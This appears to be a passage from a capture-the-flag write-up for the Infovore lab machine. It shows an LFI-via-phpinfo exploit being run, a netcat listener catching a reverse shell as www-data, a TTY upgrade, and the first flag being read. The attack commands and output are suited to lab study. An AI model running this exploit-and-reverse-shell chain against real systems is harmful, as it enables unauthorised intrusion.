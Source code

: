 Now, start a listener (`rlwrap nc -nlvp 4444`) and run the exploit:

~~~
kali@kali:/data/infovore_1/files$ python exploit.py infovore.box
LFI With PHPInfo()
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Getting initial offset... found [tmp_name] at 98096
Spawning worker pool (10)...

Got it! Shell created in /tmp/g

Woot!  \m/
Shuttin' down...
~~~

A reverse shell is spawned in our listener window:

~~~
kali@kali:~$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.147] 48199
Linux e71b67461f6c 3.16.0-6-amd64 #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) x86_64 GNU/Linux
 08:34:39 up 51 min,  0 users,  load average: 0.00, 0.06, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ SHELL=/bin/bash script -q /dev/null
www-data@e71b67461f6c:/$ 
~~~

# Flag 1

The first flag can be found in the `/var/www/html` directory: 

~~~
$ cd /var/www/html
$ ls -la
total 312
drwxrwxrwx 6 www-data www-data   4096 Jun 22 22:39 .
drwxr-xr-x 5 root     root       4096 Jun 22 22:39 ..
-r--r--r-- 1 root     root         42 Jun 22 21:40 .user.txt
drwxr-xr-x 2 root     root       4096 Apr 27 10:55 css
-rw-r--r-- 1 root     root       2544 Sep 16  2019 gulpfile.js
drwxr-xr-x 2 root     root       4096 Apr 27 10:55 img
-rw-r--r-- 1 root     root       4674 Sep 16  2019 index.html
-rw-r--r-- 1 root     root        416 Jun  1 12:18 index.php
-rw-r--r-- 1 root     root         19 Apr 26 14:23 info.php
-rw-r--r-- 1 root     root     262191 Sep 16  2019 package-lock.json
-rw-r--r-- 1 root     root       1319 Sep 16  2019 package.json
drwxr-xr-x 2 root     root       4096 Apr 27 10:55 scss
drwxr-xr-x 4 root     root       4096 Sep 16  2019 vendor
$ cat .user.txt
FLAG{Now_You_See_phpinfo_not_so_harmless}
~~~
